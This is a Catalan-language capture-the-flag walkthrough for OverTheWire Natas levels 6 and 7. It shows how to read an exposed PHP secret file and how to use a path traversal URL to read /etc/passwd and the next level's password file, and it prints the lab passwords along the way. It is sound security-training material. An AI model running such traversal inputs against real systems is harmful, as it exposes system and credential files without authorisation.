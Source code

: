 ## NATAS 6

    Username: natas6
    Password: fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR
    URL:      http://natas6.natas.labs.overthewire.org

    Trobem que hi ha un formulari amb "method=post".
    Ens diu: Input Secret.
    També hi ha un enllaç d'un fitxer "index-source.html".
    Aquest fitxer té un contingut PHP:
    <?
    include "includes/secret.inc";

        if(array_key_exists("submit", $_POST)) {
            if($secret == $_POST['secret']) {
            print "Access granted. The password for natas7 is <censored>";
        } else {
            print "Wrong secret";
        }
        }
    ?>

    Ens dirigim a:
    http://natas6.natas.labs.overthewire.org/includes/secret.inc

    I obtenim:
    <?
    $secret = "FOEIUWGHFEEUHOFUOIU";
    ?>

    Si en el formulari li posem aquesta secret, obtenim la password de natas7:
    Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

    Han passat el check de quan anem a /includes, no ens mostra cap fitxer, és més, ens surt FORBIDDEN. Per tant, han tret l'indexador.
    Però l'han liat en què la password és en text clar i a més, que qualsevol usuari pot accedir-hi. Hauria d'accedir-s'hi nomès des del server (secret definit de forma Global).

## NATAS 7

    Username: natas7
    Password: jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr
    URL:      http://natas7.natas.labs.overthewire.org

    Veiem dos links: un "HOME" i un "ABOUT".
    Si cliquem sobre el Home, no ens mostra res en concret, però a la URL hi veiem:
    http://natas7.natas.labs.overthewire.org/index.php?page=home
    És a dir, una variable "page" dintre del fitxer "index.php".
    El primer que se m'ha acudit és un path traversal, he provat:
    https://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../etc/passwd

    Ens mostra el fitxer. Per tant, és vulnerable.

    Sabem que les passwords s'emmagatzemen a:
    /etc/natas_webpass/natasX.
    Per tant, fem:
    http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 i ens mostra la password.

